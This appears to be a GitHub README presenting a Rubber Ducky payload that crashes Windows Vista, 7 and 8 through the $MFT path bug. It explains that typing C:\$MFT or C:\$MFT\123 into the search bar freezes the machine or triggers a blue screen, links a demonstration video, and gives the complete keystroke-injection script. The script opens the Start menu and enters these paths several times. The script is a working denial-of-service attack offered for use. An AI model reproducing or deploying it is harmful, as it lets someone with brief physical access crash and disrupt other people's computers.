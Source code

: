 # -$MFT-Duck-Crasher
A Simple Script for Rubber Ducky which Exploits Windows $MFT Vulnerability
$MFT is used by NTFS systems to manage some metadata.
 This fallace has recently been discovered, which has not yet been closed. Works on windows 7, 8 and vista, dont work on windows 10. I think work on Xp and earlier.
This Script dont require any special firmware on the Rubber Ducky (TwinDuck Firmare etc.).
You can also use this two strings directly on the Windows SearchBar to crash a computer.
The system crash lasts until the machine is switched off, or until the blue screen of death appears;)

A system crash demonstration using the two strings with the following paths: c:\$MFT & c:\$MFT\123 
can be found here:
https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s

 <br/> 



<a href="http://www.youtube.com/watch?feature=player_embedded&v=vYL9UQRwUZc
" target="_blank"><img src="http://img.youtube.com/vi/vYL9UQRwUZc/0.jpg" 
alt="$MFT" width="600" height="450" border="100" /></a> 

<br/>

$MFT-Duck-Crasher Payload
<br/>
<br/>
REM works on w7 - w8 - Vista (and i think xp and earlier too)
<br/>
REM it uses a high delay to support even older computers
<br/>
DELAY 1000
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
REM the 2nd enter is to close the error
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
                                                            
